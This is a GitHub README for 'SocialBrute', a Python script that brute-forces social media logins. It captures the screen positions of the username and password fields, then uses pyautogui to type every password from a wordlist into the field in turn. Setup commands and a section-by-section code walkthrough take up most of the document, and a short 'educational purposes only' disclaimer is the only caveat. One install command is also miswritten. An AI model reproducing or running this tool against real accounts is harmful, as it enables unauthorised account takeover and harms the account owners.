 <h1 align="center">SocialBrute</h1>
<p align="center">This is a bruteforce attacker made in Python. Any misuse is beyond my responsibility this is for educational purposes only</p>

##### NOTE: YOU CAN ALTER THE CODE FOR OTHER SITES AS IT MAY COME UP WITH A POPUP EVERYTIME ITS WRONG BUT I WILL ADD THSES FEATURES IN NEWER VERSIONS

<p align="center">
  <img src="BANNER.png">
</p>

## Requirements
----

- Python 3.9+
- getpass
- date 
- colorama
- sys
- time
- keyboard
- pyautogui 
- os
- requests 
- webbrowser
- time
- string
- random

---- 

## Usage
----

```
git clone https://github.com/unofficialdxnny/socialbrute

```

``` 
cd socialbrute

```

```
pip install requirements.txt

```

```
python main.py

```


<p align="center">
  <img src="disclaimer.png">
</p>



## Code Explanation



This is the banner
```py

print("""
                  
                  
         
            /££££££                      /££           /££ /£££££££                        /££              
           /££__  ££                    |__/          | ££| ££__  ££                      | ££              
          | ££  \__/  /££££££   /£££££££ /££  /££££££ | ££| ££  \ ££  /££££££  /££   /££ /££££££    /££££££ 
          |  ££££££  /££__  ££ /££_____/| ££ |____  ££| ££| £££££££  /££__  ££| ££  | ££|_  ££_/   /££__  ££
           \____  ££| ££  \ ££| ££      | ££  /£££££££| ££| ££__  ££| ££  \__/| ££  | ££  | ££    | ££££££££
           /££  \ ££| ££  | ££| ££      | ££ /££__  ££| ££| ££  \ ££| ££      | ££  | ££  | ££ /££| ££_____/
          |  ££££££/|  ££££££/|  £££££££| ££|  £££££££| ££| £££££££/| ££      |  ££££££/  |  ££££/|  £££££££
           \______/  \______/  \_______/|__/ \_______/|__/|_______/ |__/       \______/    \___/   \_______/
                                                                                                  
                                                                   Author: unofficialdxnny
                                                                       Version: 1.0.0                               
                                                                                                  
""")

```


The modules that are imported and wil be used
```py

import getpass
from datetime import date 
from colorama import Fore, Back, Style
import sys
from time import sleep
import keyboard
import pyautogui as pag
import os
import requests 
import webbrowser
import time
import string
import random

```



 Gets system time
```py

today = date.today()

## date format
d2 = today.strftime("%B %d, %Y")

print(d2)

```



Typewriter effect
```py

def type(text):
  words = text
  for char in words:
    sleep(0.1)
    sys.stdout.write(char)
    sys.stdout.flush()
type('Program launched successfully today @ ')
```

Records than prints the username box coordinates
```py

if keyboard.read_key() == "enter":
  usernamebar = pag.position()
  print(f"Cords captured: {usernamebar}")
  time.sleep(2)

  ```

Records coordinates for password box
```py

if keyboard.read_key() == "enter":
  passwordbar = pag.position()
  print(f"Cords captured: {passwordbar}")
  time.sleep(5)
```

Goes to the username box
```py

pag.moveTo(usernamebar[0], usernamebar[1], 0.5)
pag.click()
time.sleep(2)




keyboard.write(username)
```
Goes to password box
```py

pag.moveTo(passwordbar[0], passwordbar[1], 0.5)
pag.click()
time.sleep(2)
```

Types in passwords from list
```py
def startPasting():
  time.sleep(5) # time before starting the paste sequence
  text = open('passwords.txt')
  for each_line in text:
    time.sleep(2)
    pag.press("ctrl + a")
    time.sleep(2)
    pag.press("backspace")
    pag.typewrite(each_line)
    time.sleep(2)
    pag.press("enter")
  text.close()
startPasting()
```

Incase you get a popup everytime you type in a incorrect code add this snippet below the code where it records coordinates for password

```py
def type(text):
  words = text
  for char in words:
    sleep(0.1)
    sys.stdout.write(char)
    sys.stdout.flush()
type("Press Enter when your mouse is over the password area \n")




if keyboard.read_key() == "enter":
  passwordbar = pag.position()
  print(f"Cords captured: {passwordbar}")
  time.sleep(5)
```
